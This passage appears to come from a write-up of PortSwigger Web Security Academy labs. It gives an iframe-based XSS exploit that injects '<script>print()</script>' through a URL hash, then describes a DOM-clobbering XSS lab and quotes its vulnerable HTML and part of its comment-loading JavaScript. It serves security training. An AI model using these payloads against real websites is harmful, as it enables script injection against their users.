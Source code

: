 exploit

```html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 1;
        z-index: 1;
    }
</style>
<iframe src="https://0aec00340395b0ecc029894a00540068.web-security-academy.net/product?productId=1#'/><script>print()</script>" onload="if(!window.x)this.src='https://0aec00340395b0ecc029894a00540068.web-security-academy.net';window.x=1;">
</iframe>
```



#### Exploiting DOM clobbering to enable XSS

> This lab contains a DOM-clobbering vulnerability. The comment functionality allows "safe" HTML. To solve this lab, construct an HTML injection that clobbers a variable and uses XSS to call the alert() function. 

Vulnerable code

```html
<span id="user-comments">
                    <script src="resources/js/domPurify-2.0.15.js"></script>
                    <script src="resources/js/loadCommentsWithDomClobbering.js"></script>
                    <script>loadComments('/post/comment')</script>
...
</span>
```

loadCommentsWithDomClobbering.js

```javascript
function loadComments(postCommentPath) {
    let xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            let comments = JSON.parse(this.responseText);
            displayComments(comments);
        }
    };
    xhr.open("GET", postCommentPath + window.location.search);
    xhr.send();

    function escapeHTML(data) {
        return data.replace(/[<>'"]/g, function(c){
            return '&#' + c.charCodeAt(0) + ';';
        })
    }

    function displayComments(comments) {
        let userComments = document.getElementById("user-comments");

        for (let i = 0; i < comments.length; ++i)
        {
            comment = comments[i];
            let commentSection = document.createElement("section");
            commentSection.setAttribute("class", "comment");

            let firstPElement = document.createElement("p");

```